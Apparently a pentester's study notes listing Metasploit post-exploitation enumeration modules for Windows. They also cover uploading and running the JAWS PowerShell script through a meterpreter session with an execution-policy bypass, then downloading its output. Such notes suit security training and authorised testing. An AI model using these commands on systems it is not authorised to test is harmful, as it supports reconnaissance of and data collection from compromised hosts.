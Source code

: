 # Automatic Enumeration using metasploit & JAWS

- __`use post/windows/gather/win_privs` display the current privileges__
- __`use post/windows/gather/enum_logged_on_users` display the logged users__
- __`use post/windows/gather/enum_checkvm` to chech wether the target is a virtual machine__
- __'use post/windows/gather/enum_applications` display the all installed application__
- __`use post/windows/gather/enum_computers` display the othere system connected to that network__
- __`use post/windows/gather/enum_patches` it will show hotfix ids that installed and updated__
- __`use post/windows/gather/enum_shares` it will display the shares__


# Just Another windows(Enum Script)
- __Download the script from the github ---> [JAWS](https://github.com/411Hall/JAWS)__
  - It contains only powershell script call `jaws-enum.ps1`
  - > __Create a Temp directory in target system__
  - __Upload the file in Temp using meterpreter__
    - __`upload /root/jaws-enum.ps1`__
  - __After upload the file execute the script on target system__
    - __`powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`__
    - __or__
    - __`.\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt`__
    - __you can download the file and analys it `download Jaws-Enum.txt`__
